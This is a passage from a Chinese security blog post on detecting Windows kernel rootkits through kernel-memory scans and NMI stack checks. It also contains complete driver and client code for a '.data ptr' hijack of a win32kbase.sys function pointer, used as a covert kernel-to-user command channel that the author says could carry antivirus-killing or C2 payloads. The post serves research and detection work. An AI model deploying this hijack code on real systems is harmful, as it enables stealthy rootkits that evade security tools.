[2] [Kernel-Adventures/DataPtrHijack at main · eversinc33/Kernel-Adventures](https://github.com/eversinc33/Kernel-Adventures/tree/main/DataPtrHijack)

[3] [[原创]简述常规的 " 驱动 .data 通信 " 如何利用/查找-软件逆向-看雪论坛-安全社区|非营利性质技术交流社区](https://bbs.kanxue.com/thread-285348.htm)

[4] [[原创]使用NMI中断检测无模块驱动-编程技术-看雪论坛-安全社区|非营利性质技术交流社区](https://bbs.kanxue.com/thread-288576.htm)

="u3704a4ae">再看看扫描的结果对比：


显然kdmapper分配内存然后映射驱动这一特征点被我们捕捉到了，此时杀毒/反作弊对可执行页进一步扫描，则可以检测到Rookit，或者提取其特征。更重要的是，这一方法扫描整个内核空间耗时不超过一秒，是一种相当高校、准确的Anti-Rootkit方法。

## NMI

现在再来看看扫描Rootkit的另一类思想：中断。这种思想通过向CPU的各核心发送中断，打断正在执行的线程并对其堆栈合法性进行检查。对于kdmapper加载的这种rootkit来说，其堆栈中的返回地址一定不在合法模块内（模块踩踏除外），利用这一点可以捕捉到内核中正在执行的rootkit线程。

当然中断有很多种，像IPI、DPC、APC都可以打断线程执行我们的堆栈检查回调；我这里选择了NMI（Non-Maskable Interrupt）即不可屏蔽中断。使用如下代码向CPU所有核心发送NMI：

```
NTSTATUS
LaunchNonMaskableInterrupt(_In_ PNMI_CONTEXT NmiContext)
{
    if (!NmiContext)
        return STATUS_INVALID_PARAMETER;

    PKAFFINITY_EX ProcAffinityPool =
        ExAllocatePool2(POOL_FLAG_NON_PAGED, sizeof(KAFFINITY_EX), PROC_AFFINITY_POOL);

    if (!ProcAffinityPool)
        return STATUS_MEMORY_NOT_ALLOCATED;
    // 这里注册了NMI回调，打断后进入NmiCallback
    PVOID registration_handle = KeRegisterNmiCallback(NmiCallback, NmiContext);

    if (!registration_handle)
    {
        ExFreePoolWithTag(ProcAffinityPool, PROC_AFFINITY_POOL);
        return STATUS_MEMORY_NOT_ALLOCATED;
    }

    LARGE_INTEGER delay = {0};
    delay.QuadPart -= 100 * 10000;

    for (ULONG core = 0; core < KeQueryActiveProcessorCount(0); core++)
    {
        KeInitializeAffinityEx(ProcAffinityPool);
        KeAddProcessorAffinityEx(ProcAffinityPool, core);

        DEBUG_LOG("Sending NMI");
        HalSendNMI(ProcAffinityPool);

        // 同一时间只能处理一个NMI，所以这里加个延时
        // 确保NMI回调执行完毕
        KeDelayExecutionThread(KernelMode, FALSE, &delay);
    }

    KeDeregisterNmiCallback(registration_handle);
    ExFreePoolWithTag(ProcAffinityPool, PROC_AFFINITY_POOL);

    return STATUS_SUCCESS;
}
```

注意一个内核编程的细节，在高IRQL下执行代码要尽可能简单、短暂，否则操作系统有什么其他错误没法及时处理就会蓝屏。所以我们需要把堆栈检测分为**采集堆栈+堆栈分析**两个步骤，其中 采集堆栈在NmiCallback中完成。

回调函数主要参考[周旋久](%5B%5B%E5%8E%9F%E5%88%9B%5C%5D%E4%BD%BF%E7%94%A8NMI%E4%B8%AD%E6%96%AD%E6%A3%80%E6%B5%8B%E6%97%A0%E6%A8%A1%E5%9D%97%E9%A9%B1%E5%8A%A8-%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF-%E7%9C%8B%E9%9B%AA%E8%AE%BA%E5%9D%9B-%E5%AE%89%E5%85%A8%E7%A4%BE%E5%8C%BA%7C%E9%9D%9E%E8%90%A5%E5%88%A9%E6%80%A7%E8%B4%A8%E6%8A%80%E6%9C%AF%E4%BA%A4%E6%B5%81%E7%A4%BE%E5%8C%BA%5D(https://bbs.kanxue.com/thread-288576.htm))师傅的方法，只有他这么做才不会蓝屏，直接在回调函数中调用RtlWalkFrameChain采集堆栈是会蓝屏的。

其代码如下：

KPCR是每个CPU核心私有的一个结构，存储了一些上下文切换时的寄存器信息，加速上下文切换

TSS在X64下基本不怎么用了，但其中保存了异常处理的栈地址

machineFrame是压入异常处理栈的一个结构，其中保存了返回地址RIP以及RSP，这正是我们需要的

```
NmiCallback(_In_ BOOLEAN Handled)
{
    UNREFERENCED_PARAMETER(Handled);

    UINT64                 kpcr          = 0;
    TASK_STATE_SEGMENT_64* tss           = NULL;
    PMACHINE_FRAME         machineFrame  = NULL;


    kpcr          = __readmsr(IA32_GS_BASE);// 拿到当前CPU的KPCR
    tss           = *(TASK_STATE_SEGMENT_64**)(kpcr + KPCR_TSS_BASE_OFFSET);// 0x8
    machineFrame = tss->Ist3 - sizeof(MACHINE_FRAME);

    {
        // 在这里对堆栈检查，比如是否在有效模块内
        // 不在的话则认为是内核shellcode
        CheckStack(machineFrame->rip,machineFrame->rsp);

    }
}
```

拿到RIP后，就可以判断其是否在正常的内核模块范围内，若不在，则判定为Rootkit

```
IsInstructionPointerInInvalidRegion(_In_ UINT64          RIP,
                                    _In_ PSYSTEM_MODULES SystemModules,
                                    _Out_ PBOOLEAN       Result)
{
    if (!RIP || !SystemModules || !Result)
        return STATUS_INVALID_PARAMETER;


    for (INT i = 0; i < SystemModules->module_count; i++)
    {
        // 不会检查HAL层和PatchGuard的运行
        PRTL_MODULE_EXTENDED_INFO system_module =
            (PRTL_MODULE_EXTENDED_INFO)((uintptr_t)SystemModules->address +
                                                i * sizeof(RTL_MODULE_EXTENDED_INFO));

        UINT64 base = (UINT64)system_module->ImageBase;
        UINT64 end  = base + system_module->ImageSize;

        if (RIP >= base && RIP <= end)
        {
            *Result = TRUE;
            return STATUS_SUCCESS;
        }
    }

    *Result = FALSE;
    return STATUS_SUCCESS;
}
```

利用NMI中断检测Rootkit有一个弊端，那就是Rootkit的运行要相对活跃一点，这样我们才能有效命中其线程；对于一些游戏外挂的rookit来说是比较管用的

## 通信检查

### .data ptr hijack

在我的[上一篇文章](%5Bxz.aliyun.com/news/18872%5D(https://xz.aliyun.com/news/18872))中讲了利用ETW挂钩系统调用，我们可以复用这一思想，对NtDeviceIoControl进行监控；因为BYOVD这样的攻击是利用合法驱动的漏洞来强杀EDR的，而合法驱动通常就采用IRP进行通信。

这又引出一个问题：如果Rootkit驱动是攻击者自己的呢？那很显然攻击者不会在使用Windows提供的这种官方通信手段了，而转而使用一些更隐蔽的通信手段，比如.data ptr劫持。

.data ptr劫持是在游戏外挂圈被提出的一个概念，它利用Patch Guard对.data段中的函数指针监控不严格这一特性，替换某些在**3环能够直接调用，调用完毕后发送至内核的特殊函数**，这类函数通常存在于win32k.sys，win32kbase.sys等

Windows的图形子系统原本是纯3环实现的，在后来的更新中被搬进了0环，由于微软工程师考虑不周暴露出了很多的安全漏洞，之前奇安信披露的[StepBear](%5B%E5%A5%87%E5%AE%89%E4%BF%A1%E5%A8%81%E8%83%81%E6%83%85%E6%8A%A5%E4%B8%AD%E5%BF%83%5D(https://ti.qianxin.com/blog/articles/The-Nightmare-of-EDR-Storm-0978-Utilizing-New-Kernel-Injection-Technique-Step-Bear-CN/))技术就是在这个驱动中的。

这里我们介绍一种不依赖于高频线程的.data ptr劫持，在一定程度上能规避NMI中断命中Rootkit线程。

对于win32kbase.sys来说，这个特殊的驱动在会话空间中加载，它会被映射到GUI进程（比如Winlogon）中，因此我们想要替换.data ptr需要调用KeStackAttachProcess挂靠到Winlogon的上下文中，再通过特征码的方法定位要替换的函数指针。本人的测试系统为**Win11 21H2**，不同系统差异可能较大。

我们关注的函数指针位于ApiSetEditionCreateWindowStationEntryPoint中，如下：



但是ApiSetEditionCreateWindowStationEntryPoint是未导出的，定位这个函数有点麻烦，不妨先定位其上层封装函数NtUserCreateWindowStation，这个函数是导出的



下面是一个在指定模块定位导出函数的工具方法：

```
PVOID
        GetSystemRoutineAddress(
    const PWCHAR& moduleName, 
    const PCHAR& functionToResolve
        )
    {
    PVOID moduleBase = EvscGetBaseAddrOfModule(moduleName);

    DbgPrint("0x%lx\r
", (ULONG_PTR)moduleBase);

    if (!moduleBase)
        return NULL;

    // 解析PE头和导出表目录
    PFULL_IMAGE_NT_HEADERS ntHeader = (PFULL_IMAGE_NT_HEADERS)((ULONG_PTR)moduleBase + ((PIMAGE_DOS_HEADER)moduleBase)->e_lfanew);
    PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)((ULONG_PTR)moduleBase + ntHeader->OptionalHeader.DataDirectory[0].VirtualAddress);

    PULONG addrOfNames = (PULONG)((ULONG_PTR)moduleBase + exportDir->AddressOfNames);
    PULONG addrOfFuncs = (PULONG)((ULONG_PTR)moduleBase + exportDir->AddressOfFunctions);
    PUSHORT addrOfOrdinals = (PUSHORT)((ULONG_PTR)moduleBase + exportDir->AddressOfNameOrdinals);

    // 遍历导出目录
    for (unsigned int i = 0; i < exportDir->NumberOfNames; ++i)
    {
        CHAR* currentFunctionName = (CHAR*)((ULONG_PTR)moduleBase + (ULONG_PTR)addrOfNames[i]);


        if (strcmp(currentFunctionName, functionToResolve) == 0)
        {
            PULONG addr = (PULONG)((ULONG_PTR)moduleBase + (ULONG_PTR)addrOfFuncs[addrOfOrdinals[i]]);
            return (PVOID)addr;
        }
    }

    return NULL;
}
```

定位NtUserCreateWindowStation

PVOID funcAddr = GetSystemRoutineAddress(L"win32kbase.sys", "NtUserCreateWindowStation");

下面是ApiSetEditionCreateWindowStationEntryPoint中函数指针的特征部分，通过48 8B 05 ?? ?? ?? ?? 48 85 C0定位即可



定位、替换指针的完整代码如下：

```
NTSTATUS 
    DriverEntry(
    _In_ PDRIVER_OBJECT   DriverObject,
    _In_ PUNICODE_STRING  RegistryPath
) {
    UNREFERENCED_PARAMETER(RegistryPath);

    KAPC_STATE apcState = { 0 };
    //
    // 将驱动线程挂靠到GUI程序Winlogon上，这样才能访问win32kbase.sys
    //
    UNICODE_STRING sWinLogon = RTL_CONSTANT_STRING(L"winlogon.exe");
    HANDLE winlogonPid = Memory::EvscGetPidFromProcessName(sWinLogon);
    DbgPrint("[*] winLogonPid: 0x%x
", HandleToULong(winlogonPid));

    PsLookupProcessByProcessId(winlogonPid, &g_pWinlogon);


    //
    // 共享内存用于写入Payload，返回的地址为g_hSharedMemory
    //
    if (!NT_SUCCESS(CreateSharedMemory()))
    {
        DbgPrint("[!] Could not create shared memory
");
        return STATUS_FAILED_DRIVER_ENTRY;
    }
    // 挂靠
    KeStackAttachProcess(g_pWinlogon, &apcState);
    {
        // 
        // 定位NtUserCreateWindowStation
        //
        PVOID funcAddr = Memory::EvscGetSystemRoutineAddress(L"win32kbase.sys", "NtUserCreateWindowStation");
        if (!funcAddr)
        {
            KeUnstackDetachProcess(&apcState);
            return STATUS_NOT_FOUND;
        }
        DbgPrint("[*] NtUserCreateWindowStation found at 0x%llx
", (ULONG_PTR)funcAddr);


        //
        // 特征定位.data ptr
        //
        ULONG_PTR dataPtrPattern = (ULONG_PTR)FindPattern(
            (PVOID)(funcAddr),
            200, 
            "\x48\x8B\x05\x00\x00\x00\x00\x48\x85\xC0", 
            "xxx????xxx"
        );
        // 48 8B 05 ?? ?? ?? ?? 48 85 C0

        if (dataPtrPattern)
        {
            DbgPrint("    Pattern : 0x%llx\r
", dataPtrPattern);
            UINT32 offset = *(PUINT32)(dataPtrPattern + 3);
            DbgPrint("    Offset  : 0x%lx\r
", offset);
            g_dataPtrAddress = dataPtrPattern + offset + 3 + 4;
            DbgPrint("    .data ptr addr : 0x%llx\r
", g_dataPtrAddress);
        }
        else
        {
            DbgPrint("[!] Pattern not found\r
");
            KeUnstackDetachProcess(&apcState);
            return STATUS_NOT_FOUND;
        }

        // 
        // 交换函数指针，实现Hook
        //
        *(PVOID*)&g_pOriginalFunction = _InterlockedExchangePointer((PVOID*)g_dataPtrAddress, HookedFunction);
        DbgPrint("[*] .data ptr hooked\r
");

    }
    KeUnstackDetachProcess(&apcState);

    return STATUS_SUCCESS;
}
```

我们的代码只用于简单的通信测试，Hook函数写的简单点：

```
INT HookedFunction(int a1, int a2, int a3, int a4, int a5, __int64 a6, __int64 a7, int a8)
{
    DbgPrint("[*] Hook triggered\r
");

    if (ExGetPreviousMode() == UserMode && g_pSharedMemory)
    {
        // 读取共享内存中3环写入的payload
        KAPC_STATE apc = { 0 };
        KeStackAttachProcess(g_pWinlogon, &apc);
        PAYLOAD payload = *(PAYLOAD*)g_pSharedMemory;
        DbgPrint("[*] Got command: %i\r
", payload.cmdType);
        // 标记已被执行过，让3环读取结果
        (*((PAYLOAD*)g_pSharedMemory)).executed = 1;
        (*((PAYLOAD*)g_pSharedMemory)).status = 0;
        KeUnstackDetachProcess(&apc);
    }

    return g_pOriginalFunction(a1, a2, a3, a4, a5, a6, a7, a8);
}
```

3环的实现就很简单了：

* 获取到共享内存的地址
* 调用CreateWindowsStationA触发0环hook，实现通信

```
INT
main()
{
    // 打开驱动创建的共享内存区域
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_ALL_ACCESS, FALSE, L"Global\Rootkit");
    if (!hMapFile)
    {
        return 1;
    }

    // 将这一区域映射到自己的地址空间中
    PAYLOAD* pSharedBuf = (PAYLOAD*)MapViewOfFile(hMapFile, FILE_MAP_ALL_ACCESS, 0, 0, sizeof(PAYLOAD));
    if (!pSharedBuf)
    {
        return 2;
    }

    // 填充payload
    PAYLOAD payload = { 0 };
    payload.cmdType = CMD_LOG_MESSAGE;
    payload.executed = 0;
    RtlCopyMemory(pSharedBuf, &payload, sizeof(PAYLOAD));

    // 触发Hook
    std::cout << "[*] Triggering driver" << std::endl;
    HWINSTA hWinSta = CreateWindowStationA(
        "MyWinStation",
        0,
        WINSTA_ALL_ACCESS,
        NULL
    );

    // 等待一秒，检查payload有没有被修改
    while (!pSharedBuf->executed)
        Sleep(1000);
    std::cout << "[*] Status: " << pSharedBuf->status << std::endl;
}
```

测试效果如下：


在实际的rootkit中，可将payload替换成强杀杀毒软件或连接C2等功能。

### 检测

以上的通信手段仅仅替换了一个函数指针，想要检测是相对困难的。据我所知，目前有大量的.data ptr被应用于游戏外挂的通信中，反作弊的检测手段是捕捉到这些异常高频的函数调用，追踪到对应的内核函数，比如这里的NtUserCreateWindowStation，再检测其中的函数指针有没有被篡改，比如.data ptr指向了win32kbase.sys外的地址，那很显然是被篡改了。

此后，反作弊会标记这个.data ptr，下次则以特征扫描的方法直接对比是否被篡改。理论上，我们可以直接监控win32kbase.sys、win32k.sys、ntoskrnl.exe这些易受攻击的驱动中的所有的函数指针，定时检测是否被篡改。但这几乎是不可行的，因为Windows中的可能被替换的函数指针太多了，就连PatchGuard自己都没法做到全部监控，再加上不同版本函数差异太大，任何杀毒或者反作弊都没有精力监控全部的函数指针。

## 参考文章及项目

[1] [反反 Rootkit 技术 - 第三部分：劫持指针 --- (Anti-)Anti-Rootkit Techniques - Part III: Hijacking Pointers](https://eversinc33.com/posts/anti-anti-rootkit-part-iii.html)

[2] [Kernel-Adventures/DataPtrHijack at main · eversinc33/Kernel-Adventures](https://github.com/eversinc33/Kernel-Adventures/tree/main/DataPtrHijack)

[3] [[原创]简述常规的 " 驱动 .data 通信 " 如何利用/查找-软件逆向-看雪论坛-安全社区|非营利性质技术交流社区](https://bbs.kanxue.com/thread-285348.htm)

[4] [[原创]使用NMI中断检测无模块驱动-编程技术-看雪论坛-安全社区|非营利性质技术交流社区](https://bbs.kanxue.com/thread-288576.htm)
